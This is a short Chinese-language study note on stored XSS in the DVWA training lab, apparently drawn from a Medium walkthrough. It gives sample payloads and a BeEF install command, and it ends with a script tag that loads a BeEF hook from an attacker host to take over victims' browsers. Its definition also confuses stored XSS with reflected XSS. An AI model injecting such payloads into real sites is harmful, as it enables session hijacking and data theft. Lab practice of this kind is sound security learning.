



# XSS (Store)

```
儲存型XSS (Stored XSS):會被保存在伺服器資料庫中的 JavaScript 代碼引起的攻擊即為 Stored XSS，最常見的就是論壇文章、留言板等等，因為使用者可以輸入任意內容，若沒有確實檢查，那使用者輸入如 <script> 等關鍵字就會被當成正常的 HTML 執行，標籤的內容也會被正常的作為 JavaScript 代碼執行。而此手法需透過特定網址點入，因此攻擊者通常會以釣魚手法、社交工程等方式誘騙受害者點入連結，但因為代碼都在網址上，只要細心一點就不容易受害。
```
指說會被存入到資料庫的問題

## Low
直接對著Message 填入XSS，完成攻擊
```
    <script>123</script>
```

## Medium 
後端對Message 做了規範，但Name 指有限制大小而已
使用Burpsuite 來攔截封包，直接改封包內容進行XSS Store 攻擊



## HIGH
Burpsuite 攔截後
用img 來注入


## 額外閱讀 Beef XSS

beef 是一個只要XSS成功，就可以進行各種擷取的能力
安裝
```
    apt install beef-xss
```

beef code 格式

```
   <script src="http://<IP>:3000/hook.js"></script>
```



來源：
https://medium.com/blacksecurity/metasploitable-dvwa-xss-vulnerability-2c7c8facf5e9